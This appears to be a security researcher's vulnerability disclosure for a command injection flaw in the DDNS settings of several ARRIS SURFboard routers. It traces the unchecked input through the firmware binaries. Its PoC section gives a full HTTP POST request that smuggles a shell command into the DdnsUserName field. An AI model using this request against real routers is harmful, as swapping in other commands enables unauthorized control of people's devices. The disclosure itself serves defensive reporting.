







# ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `ddns` function, `DdnsUserName、DdnsHostName、DdnsPassword` is directly passed by the attacker, so we can control the `DdnsUserName、DdnsHostName、DdnsPassword` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `scnvram_set` to store this input.

<div  align="center"></div>

<div  align="center"></div>

In `rc` binary:

In `sub_16DD8` function, the initial input will be extracted.

<div  align="center"></div>

Eventually, in `sub_16920、sub_16B98` function, the initial input will cause command injection.

<div  align="center"></div>

In `libcomm_sc.so` binary:

Function `system` is called internally in function `_sc_exec`.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> Complete vulnerability verification on SBR-AC1900P product


## PoC

We set `DdnsUserName` as **%27%3Bcd+%2Fbin%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack2.txt%3B%27** , The meaning of this command is **';cd /bin;/usr/sbin/ls>/tmp/www/hack2.txt;'**，and the router will excute it,such as:

```http
POST /setup.cgi?id=415f51ba HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 179
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/RgDdns.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

DdnsService=1&DdnsUserName=%27%3Bcd+%2Fbin%3B%2Fusr%2Fsbin%2Fls%3E%2Ftmp%2Fwww%2Fhack2.txt%3B%27&DdnsPassword=abc123&DdnsHostName=pjqwudi&this_file=RgDdns.htm&next_file=RgDdns.htm
```

<div  align="center"></div>


## Result

<div  align="center"></div>
